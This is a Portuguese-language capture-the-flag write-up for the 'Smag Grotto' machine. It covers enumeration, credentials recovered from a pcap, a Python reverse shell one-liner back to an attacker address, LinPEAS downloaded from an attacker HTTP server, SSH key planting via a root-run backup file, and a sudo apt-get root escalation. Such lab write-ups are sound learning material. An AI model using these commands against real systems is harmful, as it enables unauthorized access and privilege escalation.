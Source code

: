 # _**Smag Grotto CTF**_
![](grotto.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website, vamos visitar  
Apenas um simples website  
Vamos tentar um _brute force_ de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Temos um diretório promissor: **e-mail**  
Vamos investigar  
Parece que temos algumas mensagens de e-mail relatando a migração de rede e a falha no _download_ de um arquivo  
É relatado também ser necessário realizar download do arquivo via ```wget```  
Clicando no arquivo, conseguimos download, se trata de um arquivo _.pcap_  
Arquivos _.pcap_ são arquivos padrão utilizados em scanners de rede como Wireshark  
Vamos abrir este arquivo  
Investigando os pacotes HTTP, encontramos um usuário e senha  

![](pcap_wireshark.jpg)

Além disso, este pacote está sendo enviado para: <mark>development.smag.thm/login.php</mark>  
Para podermos acessar este domínio, precisamos alterar nosso arquivo _/etc/hosts_  

![](etc_hosts.jpg)  

Temos duas áreas para realizar login, vamos tentar ambas  
Ambas levam a mesma página e dão login como sucesso  

![](command_page.jpg)  

Vamos começar testando alguns comandos  
Após alguns testes, parece que deve aceitar diversos comandos, mas não existe nenhum resultado visual  
Tentando obter uma shell com o comando abaixo  
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
![](shell_success.jpg)

Obtemos uma shell!  
Vamos melhorar ela com ```python3 -c 'import pty, os; pty.spawn("/bin/bash")'```  

## _**Ganhando acesso**_
Primeiro, vamos investigar um pouco  
Após um tempo procurando algum arquivo explorável com alguns comandos básicos, foi decidido usar o programa <mark>LinPeas</mark> para essa tarefa  
Primeiro, ligamos nosso servidor HTTP com: ```python3 -m http.server 8080```
Em seguida, na máquina-alvo, buscamos com: ```curl http://[ip_address]:[port]/linpeas.sh -o /tmp/linpeas.sh```; obs: com ```wget``` estava dando erro  
Damos as permissões necessárias e em seguida, executamos  

![](bck_ssh.jpg)

Este arquivo parece estar sendo executado como _root_, copiando o conteúdo de _/opt/.backups/jake_id_rsa.pub.backup_ para as chaves de **jake**  
Podemos realizar o seguinte:
* em nossa máquina
> ```bash
> ssh-keygen -t rsa -b 4096
> ```
Siga as etapas para criar a chave privada e a chave pública

> ```bash
> python3 -m http.server 8080
> ```

* na máquina-alvo
> ```bash
> wget http://[ip_address]:[port]/pub_key_name.pub -o /tmp/pub_key_name.pub
> cat pub_key_name.pub > /opt/.backups/jake_id_rsa.pub.backup
> ```
Espere 1 minuto e realize login via SSH com: ```ssh -i priv_key_name jake@[ip_address]```  

![](jake_login.jpg)  

## _**Escalando privilégios**_
Vamos começar com alguns comandos básicos como ```sudo -l```  
Parece que temos algo promissor após ver a seguinte linha:  **(ALL : ALL) NOPASSWD: /usr/bin/apt-get**  
Investigando por comandos para obter _root_, cheamos no seguinte:
> ```bash
> sudo apt-get -o APT::Update::Pre-Invoke::="/bin/bash" update
> ```
Esse comando executa /bin/bash como root antes da atualização de pacotes  

![](root.jpg)

Agora, basta ir atrás das flags!
